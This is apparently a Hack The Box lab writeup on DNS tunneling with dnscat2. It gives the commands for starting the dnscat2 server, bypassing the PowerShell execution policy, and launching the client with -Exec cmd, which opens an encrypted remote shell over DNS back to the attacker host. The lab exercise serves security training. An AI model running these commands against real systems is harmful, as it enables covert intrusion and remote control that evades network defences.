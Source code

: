 # DNS Tunneling with dnscat2 - HTB Pivoting Module Writeup

**Date Completed:** 2025-07-22

## 🧠 Summary

This module demonstrated the use of **dnscat2** to tunnel shell access through DNS TXT records using an encrypted channel. It simulated real-world DNS-based C2 communications used in stealthy post-exploitation scenarios.

---

## 🧰 Tools Used

- `dnscat2` (Ruby server)
- `dnscat2.ps1` (PowerShell client)
- PowerShell (on target Windows host)
- Git
- `scp` for file transfer (though port 22 was closed)
- RDP via `xfreerdp` (to interact with target)

---

## ⚙️ Steps Taken

### 🧪 1. Clone & Run dnscat2 Server

```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install
sudo ruby dnscat2.rb --dns host=10.10.15.169,port=53,domain=inlanefreight.local --no-cache
```

> 🔐 Server gave us a pre-shared secret for encryption.

---

### 💾 2. Clone dnscat2 PowerShell Client

```bash
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Transferred `dnscat2.ps1` to Windows host using a browser or tool like `wget` (since SSH/SCP failed).

---

### 🔐 3. Bypass PowerShell Execution Policy

On the Windows host:

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
Import-Module .\dnscat2.ps1
```

---

### 🎯 4. Start Client and Establish Tunnel

```powershell
Start-Dnscat2 -DNSserver 10.10.15.169 -Domain inlanefreight.local -PreSharedSecret <SECRET> -Exec cmd
```

On the Kali dnscat2 server:

```text
window -i 1
```

Confirmed:
```
Session 1 Security: ENCRYPTED AND VERIFIED!
Microsoft Windows [Version 10.0.18363.1801]
```

---

### 📂 5. Navigate Target and Capture the Flag

```cmd
cd \\Users\\htb-student\\Documents
type flag.txt
```

---

## ✅ Result

- **Tunnel successfully established**
- **Flag captured via DNS C2 shell**
- Demonstrated the stealth and power of DNS tunneling

---

## 🔁 Notes

- `scp` failed due to port 22 being blocked — used RDP + browser for transfer.
- Execution policy bypass was critical.
- Patience required due to latency on DNS-based shells.

---

Crafted with ❤️ by Don Trabajo
